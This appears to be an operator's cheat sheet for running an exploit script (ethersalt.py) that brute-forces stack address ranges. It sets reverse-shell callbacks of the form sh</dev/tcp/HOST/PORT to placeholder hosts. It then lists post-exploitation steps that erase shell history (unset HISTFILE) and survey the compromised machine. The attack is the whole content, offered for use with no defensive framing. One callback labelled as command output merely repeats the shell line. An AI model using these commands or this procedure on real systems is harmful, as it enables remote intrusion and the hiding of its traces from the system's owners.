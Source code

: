 
## Pick a callback method (use just one of these pairs of export lines,
## most likely the first). The first line in the first exploit window,
## the second in the second.

# Call back with interactive shell via PITCH_IP
export REMOTECOMMAND1="(sh</dev/tcp/PITCH_IP/NETCAT_PORT1>&0 2>&0)"
export REMOTECOMMAND2="(sh</dev/tcp/PITCH_IP/NETCAT_PORT2>&0 2>&0)"

# Call back with interactive shell via LOCAL_IP
export REMOTECOMMAND1="(sh</dev/tcp/LOCAL_IP/NETCAT_PORT1>&0 2>&0)"
export REMOTECOMMAND2="(sh</dev/tcp/LOCAL_IP/NETCAT_PORT2>&0 2>&0)"

# Call back with output from some commands
export REMOTECOMMAND1="(sh</dev/tcp/PITCH_IP/NETCAT_PORT1>&0 2>&0)"
export REMOTECOMMAND2="(sh</dev/tcp/PITCH_IP/NETCAT_PORT2>&0 2>&0)"


## Now, whichever REMOTECOMMAND* lines were used, here is your first
## and second window's exploit line. Note the ranges do not overlap. 
ethersalt.py 127.0.0.1 40343 5000 0xbfffe000 0xbfffefff 0x4 0x0 "$REMOTECOMMAND1"
ethersalt.py 127.0.0.1 40443 5000 0xbffff000 0xbffffff0 0x4 0x0 "$REMOTECOMMAND2



##############################################
###   IN LOCAL SHELL LISTENER WHEN IT GETS A CALLBACK
##############################################
##
## REMOTE in initial shell callback to netcat:
##
## Are we there yet?
id

## If so, this whole block can go up (to next blank line)
unset HISTFILE
unset HISTSIZE
unset HISTFILESIZE
pwd
exec 3<&- 4<&- 5<&- 6<&- 7<&- 8<&- 9<&- 10<&- 11<&- 12<&- 13<&- 255<&-
uname -a
ls -alrt /tmp
